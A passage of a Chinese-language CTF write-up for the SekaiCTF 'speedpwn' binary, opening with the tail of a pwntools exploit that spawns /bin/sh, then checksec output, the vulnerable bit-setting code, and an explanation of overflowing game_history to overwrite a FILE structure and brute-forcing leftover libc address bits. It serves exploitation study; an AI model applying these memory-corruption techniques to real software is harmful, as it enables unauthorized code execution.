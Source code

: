 ```python
# pause()
load(b"/bin/sh\x00")

p.interactive()

```

speedpwn
========

```bash
[*] '/home/llk/Desktop/pwn/sekaictf/speedpwn/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

记得.gdbinit要有`set disable-randomization off`

```c
unsigned long long game_history;
unsigned long long seed;
FILE *seed_generator;
……
 if(cmp(player_num, bot_num)) {
        puts("You win!");
        *((unsigned long long*)&game_history + (number_of_games / 64)) |= ((unsigned long long)1 << (number_of_games % 64));
    }
    else {
        puts("Bot wins!");
        *((unsigned long long*)&game_history + (number_of_games / 64)) &= (~((unsigned long long)1 << (number_of_games % 64)));
    }

```

明显的game\_history溢出可以往高地址处bss任意写，可以发送全为1来设置对应game\_history相应位为1，为0来设置对应game\_history相应位为0

溢出改seed\_generator文件结构体，但是没有地址泄露，想通过栈的残留libc泄露，但发现变量都被输入赋值了请教eurus师傅说是通过scanf输入 - 不会改变残留libc，从而libc泄露，没想到scanf输入 - 不会改变残留libc，自己还是太菜了

应该是调用libc函数在栈帧上残留的libc地址，然后通过simulate中的cmp爆破，每次simulate残留的栈帧都一样

利用残留libc低20位和最高4位不变来爆破（我在ubuntu22.04上跑是这样的，但好像别的师傅的wp都是低12位,但爆破原理都是一样的）  
最低libc位为0，所以从低位往高位填比特位1当长度相等时候，此时返回0，而不是1，从而得到比特位1的个数

- 长度：最低libc位为0，所以从低位往高位填比特位1当长度相等时候，此时返回0，而不是1，从而得到比特位1的个数
- 比特位，通过爆破中间的24位，从低至高比特位设1爆破规则如下

```c
  libc_midd_24    player_midd_24
    ……            ……
    0             0
    1             0 
    0             0
    0             0
    0/1           1    ->   为1相等往高位遍历时由于不相等然后&后一定返回1，为0不相等则返回0    
```
